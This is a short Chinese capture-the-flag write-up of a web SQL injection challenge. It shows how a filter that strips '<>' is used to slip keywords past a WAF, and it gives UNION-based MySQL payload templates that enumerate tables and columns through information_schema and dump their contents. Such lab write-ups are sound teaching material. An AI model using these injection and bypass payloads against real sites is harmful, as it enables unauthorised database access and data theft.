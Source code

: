 ```yaml
---
title: SQL-出题人就告诉你这是个注入
date: 2017-12-31 00:00:00
categories:
- CTF/Web
tags: 百度杯九月第二场
---
```


## 解题过程
### 观察
- url就一个参数id，页面提示信息`flag{在数据库中}`   
- 提交`%20and%201=1`被ichunqiu的waf拦截
- 提交`and%201=1`页面提示`inj code!`
- 观察页面源码可以看到当前所执行的SQL语句

### 测试
- 试验一堆字符，测试得到<>直接被过滤，便绕过waf和注入判定

### 注入
$字段个数 = `order by num`

$可见的字段=`union select 1,2,....,n`

$表名=`union select 1,group_concat(table_name),....n from information_schema.tables where table_schema=database()`

$列名`union select 1,group_concat(column_name),....n from information_schema.columns where table_name=0x$表名的十六进制`

`union select 1,$列名,....n from $表名` 

### Payload
- 利用<>插入在关键字当中绕过过滤

## 知识小结
- mysql中group_concat函数的使用
- mysql5.0以上版本的information_schema库
- waf花式绕过
